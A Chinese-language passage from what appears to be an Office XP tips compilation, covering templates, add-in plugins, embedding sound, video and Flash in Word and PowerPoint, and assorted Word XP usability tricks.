对局域网中的 Windows 用户来说，还可以有更便捷的多用户共享模板的方法。具体做法是：将自定义模板放入某个共享文件夹中。然后建立指向该文件夹或模板的快捷方式，需要的用户只要将快捷方式放入自己的 Templates 文件夹，就可以像调用本地安装的模板那样调用了。

### 七、使用网络模板

Office XP 自带的模板总是有限的，为了满足用户不断增加的需求，Microsoft公司的Microsoft.com站点提供了网络模板服务。下面以PowerPoint XP为例，来介绍一下使用网络模板的具体方法。首先打开 PowerPoint XP 的【新建演示文稿】任务窗格，然后建立拨号连接，单击任务窗格下面的【Microsoft.com上的模板】，就可以打开该站点上的中文模板库。其中提供了“出版和教育”、“办公”、“简报”等十四大类共241个模板。只要单击网页上的模板类型链接（如“出版和教育”），就可以在网页上看到该类模板的名称和提供商等内容。如果想将该模板安装到自己的 PowerPoint XP 中，必须单击模板名称，待网页显示“模板最终用户许可协议”后单击【同意】，网页上就会显示该模板的第一个幻灯片。单击【在 Microsoft PowerPoint 中编辑】，IE 就会将模板下载到你的硬盘，完成后自动用 PowerPoint XP 打开模板。如果你对模板的效果满意，再用【另存为】命令将它保存为模板，就可以像普通模板那样调用了。

### 八、PowerPoint XP的第三方模板

Office XP 虽然自带了大量的文档模板，但随着 Office XP 应用的日益广泛，自带的模板已经满足不了人们的需要了。其实，除了微软为我们提供的 Office XP模板外，目前还有第三方的模板资源可以使用。下面就来看看这样的第三方模板吧，虽然是英文版本的，但如果感兴趣的话可以试一试，其功能比起 Office XP 自带的模板来有过之而无不及。

#### (一) 功能全面的 OfficeReady

OfficeReady 专门为 Word、Excel 以及 PowerPoint 制作了 19 个即装即用型模板，包括有：即时通讯、履历撰写、财务分析、专业级名片制作、宣传册、发票模板、奖状等模板，功能全面，简单易用。

#### (二) Office 的名片专家 Business Card Designer

Business Card Designer 即商业名片设计师，毫无疑问，它主要是针对办公制作名片开发的，内含 20000 个丰富的精彩名片模板。有了它的协助，再也用不着你去花费精力和时间，就能自己给自己设计一个专业级的名片。

不过要提醒你，在使用没有注册的 Business Card Designer 时，打印出来的名片上会打上“DEMO VERSION”的标记。

除了以上介绍的两个模板外，还有一些用于商业用途的第三方模板，比如有做商业计划用的 Biz-Plan、进行投资价格分析用的 Opti-Template、还有商业文书标准模板 Smithy Toolset 等等，它们所提供的模板在专业性方面都是非常不错的。

(文 / 江北书生 张迎新)

## 让插件把 Office XP 打点得更精彩

使用电脑的朋友一定听说过插件（Plug-In）这个名词，而且平时可能已经不知不觉地也在使用一些程序的插件。不过，你知道吗？Office 也有插件，有了插件的辅助，我们可以让 Office 工作得更好更高效。下面，我们就来介绍几款 Office 的插件。

### 一、小型语言套件——让 Office XP 也具有多重语言界面

很多人的计算机上可能都安装有 Office XP 的中文版。不过，如果我们在某些特殊情况下需要 Office XP 的英文界面，如在外企公司工作等。我们也完全没有必要去购买一套价格不菲的英文版 Office XP。只要拿出 Office XP 中文版，并从包装盒中找到一张名为“小型语言套件（英文）”的光盘，插入运行。完成后，选择【开始】→【程序】→【Microsoft Office 工具】→【Microsoft Office XP 语言设置】，启动【Microsoft Office XP 语言设置】程序，并在【显示菜单和对话框时使用】下拉列表框中选择“英语”，单击【确定】按钮后，你就会发现我们的 Office XP 已经变成了英文界面了。当然，大家如果想切换回中文界面，只要重新启动“Microsoft Office XP 语言设置”程序，然后在【显示菜单和对话框时使用】下拉列表框中选择“中文（简体）”，按下【确定】按钮即可。

### 二、Office 短信智能标记——让 Office XP 也能发送短信

使用中国佳诚有限公司为 Office XP 开发的短信智能插件，我们可以随时在 Office XP 的程序中向手机发送短消息。先登录到 http://sms.onest.net/ 注册一个账号，之后该网站会向你手机发送一个包含密码的短消息。接着从 http://sms.onest.net/SMSSmartTag/Setup.msi 处下载“Office 短信智能标记”的插件，安装以后，在 Office XP 的程序如 Word XP、Excel XP 中输入一个手机号码后，该智能标记便会出现，单击后会出现一个菜单，选择【向该手机发送短信息】命令，将会弹出一个发送窗口，依次输入“发送方手机号码”、“口令”和“发送内容”（该口令就是注册时发到你手机上的密码，用来扣除短信发送费用），然后单击【发送】按钮即可发送，非常方便。

### 三、WordRecovery 插件——修复 Word 文件有保障

用 Word 最怕文件打不开，那就从 http://www.officerecovery.com 上下载一个 WordRecovery 插件吧。安装完成后，只要打开 Word，你就会发现在【文件】菜单下多出一项 Recovery 命令。选择该命令，此时 Word 会打开窗口，我们只要选中要修复的 Word 文件，然后按下【Recover】按钮，WordRecovery 插件即会为我们自动修复选中的文件，接着会只要按照向导保存一下修复后的 Word 文件即可。

注意：如果我们有 Excel 文件损坏了，同样可以下载 ExcelRecovery 软件去修复，它的使用方法和 WordRecovery 完全一样。

### 四、Save My Settings Wizard 插件——Office 2000 设置迁移也方便

在 Office XP 中有一个【用户设置保存向导】程序，通过它我们可以把本机 Office XP 的当前设置项目保存到网络或文件中，在需要的时候可以从保存文件恢复设置。但可惜的是，Office 2000 并没有提供此功能，不过，大家可以从微软的站点上下载一个 Save My Settings Wizard 的程序。通过它，我们可以把当前系统 Office 2000 中的设置，包括 Office 2000 设置、模板、自动更正文件、校对字典文件、自定义文件、甚至 Office 2000 程序中的选项都保存到网络上，以后即使出差在外，也可以通过这个程序把它下载到当前计算机上。

### 五、简繁转换增益集——快速转换简繁字

在 Word XP 中，我们只要选择【工具】→【语言】→【中文简繁转换】命令，就可以轻松实现简体中文和繁体中文之间的转换。不过，该功能对于一些不常用的字词可能转换不够准确。我们可以从网上下载一个“简繁转换增益集”插件，安装后，它会在 Word XP 的【工具】菜单下添加一个【中文简繁转换增强】命令，使用该命令进行转换，效果会更好。

### 六、中文日期智能标记——让 Word XP 日期更智能

我们知道，尽管 Word XP 有简体中文版，但它“骨子”还是一个“舶来品”，对中文的日期支持总有些不尽如人意（至少不支持农历的计算和显示）。不过，大家可以从微软的下载站点上下载一个“中文日期智能标记”软件，下载并安装。重新启动计算机后，我们只要在 Word XP 中打开一个文件，Word XP 就会自动识别出多种形式的中文日期并会在我们用鼠标点击日期时出现一个智能标记按钮，单击后就可以实现安排会议或约会、设置纪念日、插入农历等操作，给我们带来的方便不言而喻。

### 七、Office XP 标点符号安装程序——这样输入标点有点酷

中文的标点符号比英文多，常用的标点符号可以直接从键盘上输入，但是有些不常用的输入起来就比较麻烦了。不过，大家可以从微软下载站点处下载“Office XP 标点符号安装程序”，下载后双击进行安装。安装成功后启动 Word 或 Excel，右击工具栏，然后选中【符号栏】，我们就会在窗口的下方出现了一个标点符号工具列，用鼠标单击相应的符号即可输入，非常方便。

### 八、Office XP SP1 Speller——不放走一个错字

使用 Word XP，我们可以在写完一篇文章之后，选择【工具】→【拼写和语法】命令或直接按下【F7】键对文章中的拼写进行检查，通过它可以减少文章的出错率。不过，该功能还是显得简单和不够全面。我们可以从微软的下载站点上下载一个“Office XP SP1 Speller”更新程序。它可以为 Office XP 添加更多的姓氏、街名和公司名、计算机和通信技术术语、地理名称和语言名称，使用了该插件，并更新你的 Office XP 后，你的拼写检查功能将会更加强大，任何一个错词都不会成为“漏网之鱼”。

### 九、Office XP 帮助文件更新程序——让 Office 帮助更全面

在使用 Office 的过程中，如果遇到自己不懂的内容时，经常会按下【F1】键打开帮助文件学习。但如果大家想得到最新的 Office 帮助文件，则可以从微软的下载站点上下载 Office XP 帮助文件更新程序 OfHelp.exe，并安装该程序，在提示输入 Office XP 更新帮助文件的位置时，把 Office XP 的安装文件夹设定为 C:\Program Files\Microsoft Office\Office10\2052，当安装程序询问你是否希望覆盖现有文件时，单击【全部】按钮覆盖所有 *.toc 和 *.ow 文件，重新启动计算机，即可像平常一样使用 Office XP 最新的程序联机帮助文件了。

### 十、使用插件转换大写金额

可能有时会需要把一些数字转换成中文大写金额。很多报刊中讲过所以用函数来实现，但具体操作起来都比较麻烦。其实，大家可以从 http://www.excelhome.net/tools/EHFL21P.zip 处下载一个 Excel 函数库插件，下载后，双击 EHFL21P.zip 文件，把其中的 EHFL.xla 文件解压到 Office 的安装文件夹的“Office\Library”中，接着启动 Excel，选择【工具】→【加载宏】命令，在“Excel Home 扩展函数库”这个加载宏前面的框中打钩，最后按“确定”。这样在 Excel XP 中就可以使用 EHDXRMB 函数了。如对于 EHDXRMB(1688.8)，该单元格会显示为“壹仟陆佰捌拾捌元捌角”，这样就非常方便了。当然，这个函数库插件里的函数不止 EHDXRMB 一个，大家可以参见 EHFL21P.zip 中的 readme.txt 文件。

### 十一、Word 2002 Support Template 插件——把 Word 的自动更正信息保存起来

我们知道，Word XP 具有自动更正功能，而自动更正文字内容可以通过 Word XP 的【工具】→【自动更正选项】来查看、定义或修改。但是默认情况下，重新安装系统和 Office XP 后，我们自定义的更正信息就会丢失。不过，大家可以从微软的下载站点上下载到一个非常强大的 Word 2002 Support Template 插件，安装后，它会在 Word XP 的【工具】菜单下添加一个【保存自动更正项】命令，选择该命令，就可以将当前所有的自动更正信息保存为一个模板文件。以后重装 Office XP 后，只要加载这个模板文件，就可以恢复所有的自动更正信息了。

让你的Office更生动——Office中的多媒体应用

目前，多媒体已经成为计算机应用的家常便饭，很多软件都能很好地支持多媒体。Office XP作为办公文字处理软件的老大，似乎和多媒体应用牵扯不上太大的关系，但是，你知道吗？ Office XP除了可以完成我们平时的工作外，也完全支持多媒体，让你的工作变得更加生动活泼。现在就来看看Office XP中的多媒体应用吧。

### 一、Office XP多媒体应用简述

Office XP各组件可以非常支持图像、动画和视频等对象，利用它可以更容易地创建非常有吸引力的多媒体演示和文件。同时，Office XP中增强的浮点和多媒体单元，加快了视频、图形和图像处理，以及先进的财政、科技和工程设计应用的速度。所有这些都为Office XP处理多媒体信息提供了保证。一般来说，Office XP中要处理的多媒体信息主要是图标、图片、声音和视频。而且在Office XP的各个组件中，如Word XP、Excel XP、PowerPoint XP、Outlook XP中操作起来几乎都差不多。因此，在下面的实例中，我们将会对它们一一说明。

### 二、实例应用

### (一) 在Word中调用系统图标

平时学习电脑时，在电脑教材上经常可以看到一些非常熟悉的Windows中的图标，如记事本图标、安装程序图标等等，使得教材看上去生动、活泼，非常有说服力。那么，我们在自己的Word文件中能不能也插入这些图标，美化我们的文件呢？除了屏幕抓取图片文件外，我们这里给你介绍更容易的方法。

#### 1. 选择插入对象

新建一个文件，然后单击【插入】菜单下的【对象】命令，在【对象】对话框中单击【新建】标签，在【对象类型】中选择【对象包】。

#### 2. 选择图标资源

单击【确定】按钮，此时会出现一个【对象包装程序】窗口。此时，单击【插入图标】便进入到【更改图标】界面，默认状态下图标文件为“Windows\System\shell32.dll”，该文件中存有多个图标（如果你想插入其他图标也可以单击【浏览】按钮打开其他的EXE或DLL文件，找到图标资源）。根据需要，我们可以选择其中的一个图标（如图1），单击【确定】，退回到【对象包装程序】窗口后，关闭【对象包装程序】，这时程序会询问是否更新，单击【是】按钮后退出。

#### 3. 调整大小观看效果

这时候，大家可以看到在Word中已经有插入的图标图形了，我们还可以在文件中调整图标的尺寸大小，并将其放置到合适的位置。如果我们对插入的图标不满意，还可以双击它，打开【对象包装程序】，重新选择图标，再重复上面操作即可。这比单纯复制、粘贴过来的图标修改起来要方便得多了。

**注意：**

- (1) 与在 Office XP 中相类似，在 WPS Office 中插入图标的方法除了菜单命令稍有差异外，其余都大同小异，使用 WPS Office 的朋友也可以通过上面的方法在自己的文件中插入图标了。
- (2) 这比使用【资源编辑器】抓取下来后，再导入要方便，还可以随时打开对象进行更新。
- (3) 在 Word 中与在 Excel XP、PowerPoint XP、Outlook XP 中插入图标的操作差不多。

### （二）在 Word 中插入图片的注意事项

在 Word 文件中插入图片文件的操作非常简单，这里要介绍一下插入图片操作的注意事项。

- (1) 当打开插入图片对话框时，单击【插入】按钮旁边的扩展按钮，就可以选择是否把图片链接到文件。链接到文件的图片文件一旦修改，则在文件中也会相应变化。
- (2) 尽量不引入大的图片，如果要引入，也尽量使用链接方式。如果大家觉得文件很大，可以这样来给它减肥：右击 Word 文件中任何一幅图片，选择【设置图片格式】命令，并在打开的窗口中单击【图片】标签，再单击【压缩】按钮，然后在打开的【压缩图片】对话框中的【应用于】列表框中选中“文件中的所有图片”，在【更改分辨率】中选择“Web/屏幕”，同时在【选项】下确认选中“压缩图片”和“删除图片的裁剪区域”复选框（如图2），最后单击【确定】按钮即可。
- (3) 上面介绍的方法对于 Office XP 中的其他组件如 Excel XP、PowerPoint XP 都有效。

### （三）使用剪贴画为文件添色

Office XP 在安装时会向电脑里安装剪贴画。大家只要选择【插入】→【图片】→【剪贴画】命令。再单击右边窗格中【剪辑管理器】即可打开如图 3 所示的窗口，从左边选择相应的剪贴画，单击鼠标右键，选择【复制】命令，再到 Word 中，按下【Ctrl】+【V】键粘贴过来即可。

**注意：**

- (1) 其实，图 3 就是 Office XP 中自带的一个独立的程序 Microsoft Clip Organizer，它可让我们比以往更容易组织及使用图形、相片、声音、视频和其他多媒体。

### (四) 给文件加上自己的声音

我们在文章中介绍一首诗词歌赋时，如果加入相关的乐曲（声音文件），将会有一种既能读其文，又可听其声的美妙感觉。不过，要让你的文件说起来，一点儿也不难。

#### 1. 插入波形对象

- (1) 先将光标定位于要插入声音文件的地方，再选择【插入】菜单中选择【对象】命令，随后弹出【对象】对话框。接着在【对象类型】中选择“波形声音”项，并单击【确定】按钮。
- (2) 此时在文件中将会插入一个喇叭状图标（声音文件图标），并同时出现【录音机】（Windows附件自带）。
- (3) 选择录音机【编辑】菜单中的【插入文件】命令，弹出【插入文件】对话框，从中选择需要的声音文件，并单击【打开】按钮。当然了，单击录音机【播放】按钮，就可以欣赏插入的声音。

此时关闭录音程序即完成了声音文件的插入，以后只要双击文件中的声音图标，就可以直接播放插入的声音文件，如果再配上相应的图片，那你的文件可就真是图文并茂、有声有色了。

#### 2. 直接用外录的方式插入声音文件

除了以上的方法外，还可以使用电脑专用麦克风，甚至可以使用外录的方式来插入声音文件，当然也可以插入你的声音，比如加入你的语音问候或者是对文件的简短评论和注释等等。

单击文件中录音机的【录音】按钮，开始录音工作。录制完成后，单击【停止】按钮。当Word如果询问你是否更新文件，单击【是】按钮即可插入我们自己的声音了。

这里要注意声音文件不要太大，否则整个Word文件也会很大。另外，上面提到的这些“小喇叭”也可以像正规文本一样被复制、剪切和粘贴。

在Word文档中插入声音文件，也可以利用【插入】菜单下【图片】选项中的【剪贴画】，从【剪辑库】中选取插入。

**注意：** 在Word中默认可以插入的声音只限于WAV和MIDI文件，如果我们想插入MP3，可以这样来做：打开Word文档，把光标移到你准备插入音乐的位置，再选择【插入】菜单下的【对象】选项，在打开的【对象】对话框中，单击【由文件创建】标签，单击【浏览】按钮，在打开的【浏览】对话框中找到准备插入MP3文件，选中后单击【确定】按钮。等【浏览】对话框自动关闭后，单击【由文件创建】活页卡片中的【确定】按钮。稍停后在插入点就会出现MP3文件的图标，双击之即可播放。

#### 3. 在 Word 文档中观看电影

如果我们在文档中加入电影片段，将更具趣味：选择【插入】菜单，单击【对象】。在【对象类型】列表中选择【视频剪辑】。再单击【确定】按钮，你会发现Word的菜单条全部发生了变化：

打开【插入剪辑】菜单，单击【Video for Windows】项，再从打开文件对话框中选择一个电影文件，然后单击【确定】按钮。这时电影文件的画面就出现在文档中了。

现在只要用鼠标双击这个电影画面就可以欣赏了。如果想暂停，在画面上单击鼠标即可；如果希望停止，只需在页面其他地方点一下鼠标。

**注意：**

- (1) 为了美观起见，我们将画面的边框和状态栏去除。打开【编辑】菜单，单击【选项】。在【选项】对话框中单击【回放控制栏】和【对象的边界】，将它们前面的对勾去掉，然后单击【确定】按钮。并在页面中单击返回到“页面视图”，这样，画面的边框与状态栏已经消失了。
- (2) 此外，也可以调整电影画面的大小和位置，其方法和调整图片对象的方法相同。
- (3) 添加了多媒体对象后的Office文档会变得很大，用WinRAR等软件压缩后会小出很多，如果要发送给别人，还必须附带外部连接的声音或电影文件。
- (4) 以上方法对于Excel、PowerPoint等组件也同样适用。

### (五) 在 Powerpoint 中插入 Flash 动画

由于Flash制作的动画采用了矢量图形，其动画图像质量高、体积小、交互性好，因而被广泛应用在Web 页面中。其实，正是由于Flash文件的这些特点，在除了 Web 页以外的很多地方都可以被采用，比如 Flash 与其他软件配合，可以相互取长补短，从而达到完美的表现效果。

对于PowerPoint易用性和强大的幻灯片制作播放功能，是众所周知了，但PowerPoint本身对动画处理功能的局限性，在一定程度上影响了 PowerPoint 在动画方面的更进一步的深入应用。

说到这里，我们就会自然地想到一个问题，如果把Flash动画插入到PowerPoint文件中，那么就可以把两种文件的优势进行互补，从而让我们的演示文档表现得更加完美。下面，我们就来介绍一下如何在 PowerPoint 中插入 Flash 动画吧。

#### 1. 必要条件

在PowerPoint播放Flash动画文件的前提条件是要预先安装 Flash 或 Flash 控件，其控件文件名为 SWFLASH.OCX。大家可以通过运行 Flash Active X 安装文件 InstallAXFlash.exe进行安装，也可以在 Windows 98 中选择【控制面板】→【添加 / 删除程序】，选择【安装 Windows】选项卡，并选中【多媒体】项目中的 “Macromedia ShockWAVe Flash” 复选框，然后进行安装。

完成这些准备工作，下面就来介绍两种插入 Flash 动画的方法。

#### 2. 直接插入对象法

- (1) 插入Flash动画：启动PowerPoint幻灯片，选择【插入】→【对象】，弹出【插入对象】对话框。在弹出的【插入对象】对话框中选择【由文件创建】选项，并单击【浏览】按钮来找到要插入的 Flash 文件。
- (2) 设置动作：在幻灯片窗口中，右键单击Flash文件图标，并在弹出的快捷菜单中选择【动作设置】命令，在【单击鼠标】选项卡的【对象动作】选项中选择 “激活内容” 选项。
- (3) 播放Flash动画：在幻灯片放映时，只要单击Flash文件图标，即可播放 Flash 动画。

#### 3. 调用EXE文件法

上面介绍的方法虽然简单，但在幻灯片中会出现Flash文件图标，用户无法将它设置成其他图片。其实，我们可以先在Flash中把动画生成EXE文件，然后在幻灯片视图中，用绘图工具画出一个图形，或者插入一个图片。然后右键单击幻灯片，选择【动作设置】命令，并在【动作设置】对话框中，选中【单击鼠标】选项卡中的【运行程序】选项，再选择生成Flash动画的EXE文件。

当要播放幻灯片时，只要在放映视图中，单击相应的图片，即可播放Flash动画了。

## 巧思妙用 Office XP

Office XP已经成为全球办公软件的主流，因此Office XP的常用操作已经被大家所熟悉了，但对于很多读者来说，对一些很具有技巧性的操作方法却不一定了解，因此，下面我们就来介绍一些常用的使用技巧。

### 一、Office XP控制技巧

### 1. 智能标记使用技巧

智能标记是 Office XP 新增的一个重要功能，如果你不喜欢它时时跳出来打扰，可以按照以下介绍的方法将它关闭。

关闭 Word XP 智能标记的方法是：单击 【工具】菜单下的 【自动纠正选项】 命令，打开 【智能标记】选项卡，取消 【使用智能标记标识文本】 和 【显示智能标记操作按钮】 项，【确定】 后即可关闭日期、时间、地址、电话号码等智能标记功能。如果你要关闭粘贴时的智能标记按钮，可以打开 【选项】 对话框中的 【编辑】 选项卡，清除“剪切和粘贴”下的两个选项并单击 【确定】 按钮。

关闭 Excel XP 智能标记的方法是：单击 【工具】菜单下的 【自动更正选项】 命令，打开 【智能标记】选项卡，取消选中 【用智能标记标识数据】 项。你还可以关闭 Excel XP 的错误检查智能标记，如果公式不符合事先设定的规则，该智能标记就会自动出现。方法是：单击【工具】菜单中的【选项】命令，打开【选项】对话框中的【错误检查】选项卡，取消【允许后台错误检查】；然后单击【确定】按钮。与 Word XP 相似，Excel XP 也带有智能粘贴标记按钮，你可以打开【选项】、【编辑】选项卡，将【显示粘贴选项按钮】和【显示插入选项按钮】取消。

关闭 PowerPoint XP 智能标记的方法是：单击【工具】菜单下的【自动更正】命令，将【自动更正】选项卡中的【显示自动更正选项按钮】项取消；再打开【输入时自动设置格式】选项卡，取消【输入时应用】下面的第一个选项和【工作时应用】下面的选项。

### 2. 个人资料隐藏技巧

Word XP、Excel XP 和 PowerPoint XP 可以隐藏文档创建者的个人资料，如属性对话框中的作者、单位等等。具体方法是：单击【工具】菜单中的【选项】命令，打开【选项】、【安全性】选项卡，将【隐私选项】下的“保存时从此文件中删除个人资料”选中。文件下次存盘时，Office XP 就会删除其中的个人资料，或者用一些通用的资料代替。

### 3. 配置保存技巧

为了便于重新安装后快速恢复设置，或者按你的习惯使用他人的 Office XP。你可以使用“用户设置保存向导”克隆配置，具体方法是：打开 Windows 中的【开始】→【程序】→【Microsoft Office工具】菜单，选择【用户设置保存向导】打开向导。首先选择“保存本机的设置”还是“将原先保存的设置恢复应用到本机上”，选择前者进入下一步，可以将 Office XP 设置以文件形式保存到 Web 或本地硬盘（软盘）；选择后者进入下一步，可以看到“恢复 Web 上保存的设置”或“恢复文件上保存的设置”两个选项，根据设置文件的保存方式进行选择。即可快速恢复或修改设置，能够大大节约用户配置 Office XP使用的时间。

### 4. 文档界面使用技巧

早期的 Office 程序采用多文档界面，用户使用【窗口】菜单切换文档。Office 2000 首次引入了单文档界面（SDI），可以像程序那样通过任务栏切换文档。由于这种方式消耗的系统资源较多，且新老用户的使用习惯不一致，导致大家对这种改进褒贬不一。为此，Microsoft公司决定将界面的选择权交给用户。以 Word XP 为例，如果你是多文档界面的拥护者。可以单击 Word XP【工具】菜单中的【选项】命令，打开【选项】→【视图】选项卡，去掉“任务栏中的窗口”前的选中标志并单击【确定】。以后 Windows 任务栏将只显示当前的活动 Word 文档图标，你可以像 Word 97 那样使用【窗口】菜单切换文档。反之，则可以像 Office 2000通过任务栏切换文档。Excel XP 和 PowerPoint XP的文档界面也有相同改进，大家可以仿照上面的方法进行修改。

### 5. 按钮定制技巧

由于用户使用的显示分辨率不同，为了充分利用工具栏空间，必须适当增减工具栏按钮的数量。具体方法有以下两种：单击对应工具栏右端的下拉按钮，选择【添加或删除按钮】下的【格式】（或【常用】），就会弹出一个大菜单。其中列出了该工具栏所有可用按钮，如果某个按钮前有选中标记，它就会出现在工具栏中，反之则从工具栏中去掉。如果选中的按钮过多，则工具栏右端会出现一个“>>”标记，单击它可以列出未显示出来的按钮供使用。

如果选择【添加或删除按钮】下的【自定义】命令，就会打开【自定义】对话框中的【命令】选项卡。在【命令】选项卡的【类别】框内选中你需要的按钮，将它拖到工具栏插入“I”指示的位置即可。

此外，工具栏中的按钮可以用鼠标拖动的方法调整位置，你只要单击【工具】菜单下的【自定义】命令打开对话框。用鼠标按住要移动位置的按钮，即可拖动并插入“I”指示的位置。如果你打开了【自定义】对话框，按下【Alt】键即可用鼠标将按钮拖离工具栏，这是一种快速删除按钮的方法。

完成上述操作后若有文档保存操作，会弹出对话框提示你是否保存修改后的模板。如果回答【是】，可以将修改存入当前使用的模板。

### 6. 对话框定制技巧

Office XP的【打开Office文档】（包括【打开】、【另存为】等）对话框预置了若干按钮，它们可以快速打开“我的文档”、“收藏夹”等对象。不过你可能想不到，这些按钮是可以定制的。

- 运行注册表编辑器，选中“HKEY_CURRENT_USER\Software\Microsoft\Office\10.0\Common\OpenFind\Places\UserDefinedPlaces”主键。
- 单击【编辑】、【新建】子菜单下的【主键】命令，建立一个名为“Place1”（再增加的主键应依次命名为Place2、Place3等）的主键。
- 接着选中“Place1”，单击【编辑】→【新建】菜单下的【字符串值】命令，在Place1下面建立一个名为“Name”的字符串值。
- 将其选中后单击【编辑】菜单下的【修改】命令，在对话框的【数值数据】栏中输入按钮的名称（如“WPS文件”），该名称即可显示在【打开Office文档】等对话框中。
- 再用相同方法新建一个名为“Path”的字符串值，将它的“数值数据”修改为操作对象的路径，如“d:\ My Documents”。
- 最后在“Place1”下建立一个名为“SortAscending”的“DWORD值”，用【编辑】菜单下的【修改】命令将它的“数值数据”设定为“十六进制”的“1”。
- 此后，你只要单击【打开Office文档】对话框中的【WPS文件】按钮，“d:\ My Documents”文件夹就会被打开，从而给存盘或寻找文件带来很大的方便。

如果你在对话框中放入的按钮较多，使用小按钮可以增加显示数量，方法是：在对话框左侧按钮处单击鼠标右键，选择快捷菜单中的【小图标】。另外，采用上述方法建立的按钮可以更名或删除，你只要用鼠标右键单击操作对象，选择菜单中的【重命名】或【删除】即可。

如果你的【打开】对话框有五个以上按钮，同时使用了大图标，则左侧上下会出现三角形的小按钮，单击它既可使其中的按钮滚动，从而找到你需要的操作对象。

### 7. 剪贴板定制技巧

Office XP的剪贴板有了更大的改进，不仅可以保存更多的内容，还有更加灵活的使用方式。打开Word XP等程序的剪贴板，单击左下角的【选项】按钮，可以看到有关剪贴板使用的四个选项。如果你想让它执行两次操作后自动弹出，可以将【自动显示Office剪贴板】选中；如果你选中了【在任务栏上显示Office剪贴板的图标】，就可以在系统时钟区看到“Office剪贴板”图标，它不仅可以显示剪贴板的工作状态，使用鼠标右键单击还可以执行多种任务；若选中【复制时在任务栏附近显示状态】，则执行复制操作时可以在任务栏显示一个动画图标。

### 二、Word XP使用技巧

### 1. Word XP的任务窗格快捷键指定技巧

Word XP任务窗格通常采用自动或工具栏按钮打开，如果给它指定一个快捷键，就能够大大提高操作速度。具体方法是：单击Word XP【工具】菜单下的【自定义】命令，打开【自定义】对话框中的【命令】选项卡。在左边的分类列表中选择【编辑】，然后在右边的【命令】列表中找到【Office剪贴板】。将其选中后单击对话框中的【键盘】按钮，打开【自定义键盘】对话框。选中其左边【命令】列表中的“编辑”，然后在右边找到“EditOfficeClipboard”，用鼠标单击【请按新快捷键】框，根据需要敲入键盘上的键或其组合（如Ctrl+B）。完成后单击【指定】按钮，将打开的对话框全部关闭。这样设置后，再按前面设置的快捷键（如【Ctrl+B】），剪贴板任务窗格就会快速打开。

### 2. Word XP多处文本选中技巧

Word XP提供了二种新的选中多处文本的方法。首先可以使用【样式和格式】窗格：只要你选中其中的某种样式，单击其右边的下拉按钮，选择菜单中的【选择所有××实例】，则文档中应用这种格式的所有文本均被选中。另外也可以单击【编辑】菜单中的【替换】命令打开对话框：如果你想知道某个单词使用的频率，可以单击【查找】选项卡，在【查找内容】框输入该单词，选中【突出显示所有在该范围找到的项目】，然后单击【查找全部】，Word XP就会自动选中文档中所有该单词，同时在状态栏中显示找到的次数。

以选中“高亮度显示查找到的内容”项，然后单击【查找全部】按钮。Word XP 就会显示“找到 XX 个与此条件匹配的项”，并将所有符合条件的内容选中。

## 3. Word XP字数统计技巧

Word XP 中新增了一个【字数统计】工具栏，它可以快速统计出文档中的字符、行、页、段落等的数目。如果你需要控制文档的长度，这个功能是很有用的。显示该工具栏的方法是：在工具栏上单击鼠标右键，选择快捷菜单中的【字数统计】即可。如果你要对文档中的某项指标（如“行”）进行统计，可以单击工具栏中间的下拉箭头，从菜单中选择【行】或【字符】、【页】、【段落】等。稍等片刻，工具栏就会显示出相关的统计数据（如图1）。如果单击工具栏中的【重新计数】按钮，再打开下拉列表，可以查看文档中所有指标的具体数目。


【字数统计】工具栏打开之后，按【Alt+C】键（【重新计数】按钮的快捷键），也会将新的统计结果显示在工具栏中。

## 4. Word XP缩放打印技巧

Word XP 针对逻辑与物理页面大小不同的情况，增加了打印缩放功能。你只须打开【打印】对话框中的【按纸型缩放】下拉列表，选择打印所使用的纸张（其中列出的类型与你的打印机有关）。假如当前的页面设置为 A4，而你想使用 B5 纸进行打印，就可以在下拉列表中选择 B5，Word XP 自动缩小字体和图形的尺寸，将文档打印到 B5 纸张。反之它会自动放大字体和图形的尺寸，将较小页面的文档打印到较大的纸张，完全不用重新排版，具有类似复印机那样的放大/缩小功能。

需要说明的是：上述缩放打印设置仅对本次打印有效。如果每次打印都要进行缩放，应单击对话框中的【选项】按钮，将【打印】选项卡中的【允许重调 A4/Letter 纸型】项选中。

## 5. Word XP的多版打印技巧

如果你需要在一张 8 开纸上打印两页 16 开文档（“红头文件”），可以使用以下技巧：录入文档前，用【文件】菜单下的【页面设置】命令将逻辑页面大小设为 16 开，页面方向设为纵向，并按常规方法插入页码等内容。录入结束后，用【文件】菜单下的【打印】命令打开【打印】对话框，在【每页的版数】下拉列表中选择“2 版”。

最后单击【打印】对话框中的【属性】按钮，打开【打印机设置】对话框。将打印机纸张尺寸（物理页面）设为 8 开，打印方向设为横向。确定后回到【打印】对话框，单击【确定】按钮即可开始打印。按照类似的方法最多可以在 1 张纸上打印 16 版，用于小册子之类的文档非常方便。

## 6. Word XP的多文档关闭技巧

如果你用 Word XP 打开了多个文档，逐个关闭文档就显得非常麻烦。此时你可以采用以下技巧快速关闭 Word XP：如果你的文档全部在任务栏显示，可以按住【Shift】键单击【文件】菜单中的【退出】命令，则打开的全部文档连同 Word 会全部关闭。就是说按住【Shift】以后，【文件】菜单中的【退出】命令变成了【全部退出】命令。

你也可以让多个 Word XP 文档占用一个任务栏图标，这样可以利用任务栏图标快速关闭文档和程序。具体操作方法是：单击【工具】菜单中的【选项】命令打开【选项】对话框，取消【视图】选项卡中的【任务栏中的窗口】复选项。【确定】以后，多个文档只占用一个任务栏图标。此时你只要用鼠标右键单击任务栏上的 Word XP 图标，选择快捷菜单中的【关闭】命令；或者单击 Word XP【文件】菜单中的【退出】命令，就可以快速关闭所有文档和程序了。

## 7. Word XP的格式控制技巧

除【样式】以外，Word XP 提供了更多的格式控制手段。一篇文档通常有宋体、黑体等多种字体，假如你想一次性修改某种字体，可以在使用某种字体的段落内单击鼠标右键，选择快捷菜单中的【选择格式相似的文本】命令，则文档中使用该字体的文本全部被选中，打开【字体】列表就可以应用新的字体了。

一次性修改样式也可应用类似技巧，首先将光标放在使用了某种样式的段落或标题中，单击【样式和格式】任务窗格中的【全选】按钮，则使用了这种样式的内容就会全部选中，然后打开【样式】列表就可以应用新的样式了。

除了【智能粘贴按钮】以外，【样式和格式】任务窗格和【样式】下拉列表均提供了【清除格式】命令。如果你认为文档中的某个格式不符合要求，只须选中其所在的段落使用该命令，则文本原有的格式即被清除。

## 8. Word XP的页面空间节约技巧

Word 用户都喜欢在页面视图中编辑文档，可惜页与页之间的空白会浪费显示空间。Word XP对此作了一点改进，如果将光标放到两页文档交界的空白处，可以显示“隐藏空白”的提示。单击鼠标即可将空白去掉，显示一条黑线，鼠标再次单击该处即可恢复原有的空白。

## 9. Word XP的文档寻找技巧

